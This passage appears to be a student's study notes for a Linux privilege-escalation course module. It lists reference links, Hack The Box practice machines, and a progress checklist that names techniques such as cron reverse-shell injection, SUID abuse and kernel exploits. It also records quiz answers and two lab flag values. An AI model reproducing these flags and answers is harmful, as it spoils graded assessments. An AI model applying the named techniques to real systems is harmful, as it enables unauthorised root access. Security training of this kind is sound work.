> 🔗 **PayloadsAllTheThings -- Linux Privilege Escalation (GitHub):** [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
> 🔗 **HackTricks -- Linux Local Privilege Escalation (GitHub):** [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks) -- search "linux local privilege escalation"
> 🔗 **LinPEAS releases (GitHub):** [github.com/carlospolop/PEASS-ng/releases](https://github.com/carlospolop/PEASS-ng/releases)
> 🔗 **LinEnum (GitHub):** [github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

> 🎬 **[ippsec.rocks: "linux privilege escalation"](https://ippsec.rocks/?#linux%20privilege%20escalation)** -- search "cron" for cron job abuse walkthroughs; "suid" for SUID binary exploitation; "sudo" for sudo escalation boxes
> 🎬 **[ippsec.rocks: "linpeas"](https://ippsec.rocks/?#linpeas)** -- boxes where LinPEAS identifies the initial vector

---

## 🎯 Related Boxes to Practice

**Technique-genuine boxes (core privesc techniques from this module):**
- **HTB Cronos** -- classic cron job abuse: web foothold, then a writable root-owned cron task; direct repetition of 18.3.1
- **HTB Nibbles** -- sudo abuse: user can run a world-writable monitor script as root without a password; combines 18.3.1 and 18.4.2
- **HTB Shocker** -- ShellShock CGI foothold, then sudo Perl NOPASSWD, GTFOBins for root; covers 18.4.1 capabilities/SUID approach and 18.4.2 sudo
- **HTB Traverxec** -- Nginx config credential leaks to SSH access, then journalctl NOPASSWD sudo, GTFOBins shell escape; sudo abuse with a less obvious binary (18.4.2)
- **HTB OpenAdmin** -- sudo nano NOPASSWD, GTFOBins shell escape from nano; straightforward 18.4.2 repetition
- **HTB Valentine** -- Heartbleed leaks an SSH private key from memory, then tmux session hijack for root; dotfile and session enumeration pattern from 18.2.1

**Adjacent-workflow boxes (enumeration and credential patterns from 18.1-18.2):**
- **HTB Bashed** (done) -- scriptmanager sudo, writable cron directory; covered the sudo + cron combo already
- **HTB Beep** (done) -- multiple sudo entries, GTFOBins-style escalation; good reference for how varied sudo -l output can be
- **HTB Postman** -- Redis write SSH key, then webmin CVE or sudo apt; credential hunting and sudo escalation combined

**Search guidance:**
- `ippsec.rocks` -- search "cron privilege escalation", "suid linux", "sudo gtfobins" for walkthroughs per technique
- TJNull's OSCP prep list -- the Linux section covers cron, SUID, sudo, and kernel escalation boxes
- Offsec PG Practice -- filter for Linux boxes tagged "privesc" or "misconfiguration"

#### Tags: #RelatedBoxes #HTBCronos #HTBNibbles #HTBShocker #HTBTraverxec #HTBOpenAdmin #HTBValentine #LinuxPrivesc #Module18

---

## **Outstanding Sections**

- [x] **18.1.1 Understanding Files and User Privileges on Linux:** done (rwx model, owner/group/others table, file vs directory permission differences, /etc/shadow example, permission diagram)
- [x] **18.1.2 Manual Enumeration:** done (12-step checklist with expected output for each command; SUID, cron, network, kernel module enumeration; quiz answers: codename=buster, crontab flag=-l, SUID for the mechanism Q; VM#1 flag OS{b6eb1b203002b9d722537f581d42567c} via strings on /usr/bin/passwd_flag)
- [x] **18.1.3 Automated Enumeration:** done (unix-privesc-check standard mode, LinPEAS, LinEnum usage and tips; VM#1 flag OS{3bc7a751241f4e88f5f18f7d2e67fcb2} -- world-writable /etc/sudoers)
- [x] **18.2.1 Inspecting User Trails:** done (dotfiles, env vars, .bashrc credential export pattern, crunch targeted wordlist, hydra SSH brute force, sudo -l; quiz: sudo -l)
- [x] **18.2.2 Inspecting Service Footprints:** done (watch -n 1 ps aux grep pass, tcpdump loopback, AppArmor note; quiz: watch)
- [x] **18.3.1 Abusing Cron Jobs:** done (syslog CRON grep, script permission check, mkfifo reverse shell injection, nc listener; quiz: /var/log/syslog)
- [x] **18.3.2 Abusing Password Authentication:** done (/etc/passwd world-writable exploitation, openssl passwd crypt algorithm, root user injection format, su confirmation; quiz: crypt)
- [x] **18.4.1 Abusing Setuid Binaries and Capabilities:** done (real UID vs eUID concept, SUID bit, /proc/PID/status verification, find -exec bash -p, getcap -r, cap_setuid+ep, perl GTFOBins; quiz: getcap)
- [x] **18.4.2 Abusing Sudo:** done (sudo -l, AppArmor interference and detection, aa-status, apt-get changelog GTFOBins; quiz: AppArmor)
- [x] **18.4.3 Exploiting Kernel Vulnerabilities:** done (uname -r + arch enumeration, searchsploit filtering, inspect source, compile on target, CVE-2017-16995; quiz: gcc)
- [x] **18.5 Wrapping Up:** done (decision flowchart, external resources, related boxes)

**Module 18 theory complete as of 2026-08-15. All pure-recall quiz answers answered inline. All hands-on VM labs pending: 18.1.2 VM#1 (SUID flag), 18.1.3 VM#1 (world-writable file flag), 18.2.1 VM#2 (dotfile cred + flag), 18.2.2 VM#1 (process credential flag), 18.3.1 VM#1+VM#2 (cron injection flag), 18.3.2 VM#1+VM#2 (passwd injection flag), 18.4.1 VM#1+VM#2 (SUID + capabilities flag), 18.4.2 VM#1+VM#2 (sudo abuse flag), 18.4.3 VM#1 (kernel exploit) + Capstones VM#2-VM#5. Solo enrichment pass and hub-doc sync pending.**
